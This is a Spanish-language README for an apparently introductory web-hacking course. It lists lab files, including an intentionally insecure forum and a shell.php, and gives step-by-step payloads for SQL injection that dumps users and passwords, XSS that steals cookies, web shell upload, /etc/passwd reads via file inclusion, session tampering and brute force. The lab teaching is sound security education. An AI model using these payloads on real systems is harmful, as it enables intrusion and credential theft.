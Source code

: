 # Curso de introducción al hacking Web

Material para el curso "Introducción al Hacking Web" de OpenWebinars.

## Ficheros

* Carpeta "Demos": Distintas aplicaciones web usadas durante el curso. Deben ser montadas en un Apache.
* Carpeta "Foro": Foro modificado para ser inseguro, utilizado durante el curso. Debe ser montado en un Apache.

* Fichero databases.sql: Bases de datos utilizadas durante el curso. Deben ser importadas en una base de datos Mysql.
* Fichero scriptFuerzaBruta.jmx: Script para JMeter utilizado en el ataque de Fuerza Bruta.
* Fichero shell.php: Fichero utilizado para el ataque de tipo "Unrestricted File Upload".

## Inyecciones y distintas anotaciones para cada ataque

### L1_C3 ==> SQL Injection Login

Ir a http://IP/foro/
* Inyección: 1' or '1' = '1' #

____________________________

### L1_C4 ==> SQL Injection Datos

Ir a demos/sqli2.php: 

1) Incorrect number of columns:
asafasfasf%' union select null, 'hola' from dual #

2) Mostramos un 'hola'
asafasfasf%' union select null, 'hola', null from dual #

3) Explicación:
select Id, Nombre, Precio from demos.articulos where Nombre like '%" . $_GET['texto'] . "%'
select Id, Nombre, Precio from articulos where Nombre like '% asafasfasf%' union select null, User, Pass from demos.usuarios #      %'

4) Mostrar todas las tablas
asafasfasf%' union select null, table_name, column_name from INFORMATION_SCHEMA.COLUMNS  #

5) Mostrar todas las tablas y su base de datos:
asafasfasf' union select null, concat_ws('.', table_schema, table_name) as tabla, column_name from INFORMATION_SCHEMA.COLUMNS  #

6) Usuarios y passwords del foro:
asafasfasf' union select null, username, password from forum.users #

______________________________
### L1_C7 ==> Ataque XSS.
Acceder a http://IP/foro/

* Crear topic:
```
```
```
1) <script>alert("hola")</script>
2) <script>alert(document.cookie)</script>
3) <script>window.location="https://www.google.es"</script>
```
```
```
4) Acceder a http://IP/demos/demos/xss.php y buscar
<script>alert("hola")</script>

5) Acceder a la url resultante:
http://IP/demos/demos/xss.php?nombre=%3Cscript%3Ealert%28%22hola%22%29%3C%2Fscript%3E


_____________________________________

### L2_C2 ==> Ataque Unrestricted File Upload
Acceder a http://IP/demos/demos/upload.php
1) Subir el fichero shell.php de la ruta: C:\OpenWebinars\Formacion_HackingWeb\ficheros
2) Acceder a http://IP/demos/demos/upload/shell.php
3) Realizar un ls
4) Realizar un cat /etc/passwd
________________________________________

### L2_C4 ==> Ataque Local File Inclusion
Acceder a http://IP/demos/demos/mostrarInformes.html
1) Abrir informe 1
2) Volver y modificar la ruta a ../../../../../../../etc/passwd
3) Abrir esa ruta

______________________________________________

### L3_C2 ==> Ataque Session Prediction
http://IP/demos/demos/sqli.php

1) Activar ZAP

2) Logarse:
Login: user1
Password: password1

3) Logarse en Chrome:
Login: user2
Password: password2

4) En firefox, pulsar "ver datos", pero capturando en ZAP
5) Modificar la petición. En el ID de sesión, lo cambiamos a "user2".
6) Comprobamos que pone "Hola, Soy el usuario: user2".

____________________________

### L3_C4 ==> Ataque Fuerza Bruta
1) Abrir JMeter 
2) Abrir el script scriptFuerzaBruta.jmx en C:\OpenWebinars\Formacion_HackingWeb\ficheros
3) Explicar un poco el script
4) Ejecutar el script
5) Comprobar que ese usuario tiene esa password, accediendo a:
http://IP/foro/
User: test2
Password: 12121980

_____________________________________

### L4_C2 ==> Ataque Parameter Tampering
1) Acceder a http://IP/demos/demos/parameter.php
2) Darle a comprar una Escalera
3) Abrir ZAP
4) Tratar de comprar la escalera capturando la petición.
5) Comprar la escalera por 1€
____________________________

### L4_C4 ==> Roles
Acceder a http://IP/foro
1) Logarse:
Login: test1
Password: test1
Viendo que tiene opción de administración

2) Hacer logout

3) Logarse:
Login: test3
Password: test3
Viendo que NO Tiene la opción

4) Logout

5) Logarse de nuevo.
Login: test1
Password: test1
Capturar enlace de menú de administración.

6) Logout

7) Login:
Login: test3
Password: test3
Acceder a:
http://IP/foro/admin.php